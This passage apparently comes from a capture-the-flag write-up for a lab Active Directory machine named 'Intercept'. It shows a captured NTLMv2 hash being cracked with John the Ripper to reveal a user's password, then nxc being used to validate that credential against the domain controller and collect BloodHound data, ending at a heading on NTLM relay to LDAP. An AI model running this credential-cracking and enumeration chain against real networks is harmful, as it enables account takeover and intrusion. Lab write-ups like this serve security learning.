 and its crackable

    ➜  Intercept john hash -w=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Chocolate1       (Kathryn.Spencer)   

im gonna check if i can dump BH data

and its look like possible

    ➜  Intercept nxc ldap DC01 -u 'Kathryn.Spencer' -p 'Chocolate1'
    SMB         10.10.171.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.171.245   389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 

lets dump it

    ➜  Intercept nxc ldap DC01.intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' --bloodhound --dns-server 10.10.171.245 --collection All
    SMB         10.10.171.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.171.245   389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
    LDAP        10.10.171.245   389    DC01             Resolved collection methods: localadmin, rdp, session, dcom, trusts, psremote, group, acl, container, objectprops
    LDAP        10.10.171.245   389    DC01             Done in 00M 19S
    LDAP        10.10.171.245   389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.171.245_2025-02-05_001556_bloodhound.zip
    ➜  Intercept mkdir bloodhound
    ➜  Intercept cd bloodhound 
    ➜  bloodhound cp /root/.nxc/logs/DC01_10.10.171.245_2025-02-05_001556_bloodhound.zip .
    ➜  bloodhound ls
    DC01_10.10.171.245_2025-02-05_001556_bloodhound.zip

but there is nothing interesting at bloodhound lets check ldapchecker

## NTLM Relay to the LDAP Service

![alt text](<../assets/images/Screenshot_2025-02-05_00_21_40.png>)
